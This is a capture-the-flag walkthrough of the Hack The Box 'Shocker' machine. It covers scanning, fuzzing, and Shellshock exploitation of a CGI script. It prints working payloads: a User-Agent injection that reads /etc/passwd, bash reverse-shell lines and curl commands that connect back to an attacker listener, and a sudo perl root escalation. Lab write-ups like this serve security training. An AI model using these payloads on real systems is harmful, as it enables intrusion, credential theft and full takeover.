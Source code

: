 # Shocker
**Machine ip:** 10.10.10.56

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.56 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c189963f-1f1f-47e3-8143-3c3590c67d76)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6d921d69-f5a3-4b01-8abf-b2705292468b)

+ Navigate to `http://10.10.10.56/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53721866-1078-4c64-a195-7717114fc1a3)

+ Fuzzing:
`feroxbuster -u http://10.10.10.56 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 403,404,500 -r --extract-links`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a9ac037-a36f-41a4-9778-b82bdc5dbbc4)

+ Check `/cgi-bin/user.sh`: `curl http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/47df5820-0a25-4802-a8fb-a4a987b0ad8e)

+ Shellshock vulnerability - [CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)
+ `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bc9402cf-aee0-410f-b78c-9ac7069a0151)
<br>
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/15545c15-606a-4e45-8555-0d886bd63fc2)

+ Make a request `http://10.10.10.56/cgi-bin/user.sh` and capture the request on burp.
+ Send to repeater, and then trigger.
+ Use `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` payload on the user-agent.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d99b17d-fdb0-422b-bbf9-94be92bbb3b9)

Get a revershell: 
+ `nc -lnvp 4444`
+ `() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/33347aa2-8d52-4ecc-bdd1-eefabc6550f0)
<br>
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a66c0774-5e34-43b9-a1e5-522fc5dd4399)

Alternatively, use `curl`: 
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh`
+ `nc -lnvp 5555`
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.5/5555 0>&1" http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/998447b4-78ef-40c0-929c-17cfbd01c157)

+ `sudo -l -l`
+ Check [gtfobins](https://gtfobins.github.io/) for [perl](https://gtfobins.github.io/gtfobins/perl/#sudo)
+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c4f85588-6979-435d-b7ef-466ca66b7e4d)

# References & Alternatives:
+ https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
+ https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b
+ https://corruptedprotocol.medium.com/shocker-hackthebox-htb-2cdac3cf3562
+ https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-öner

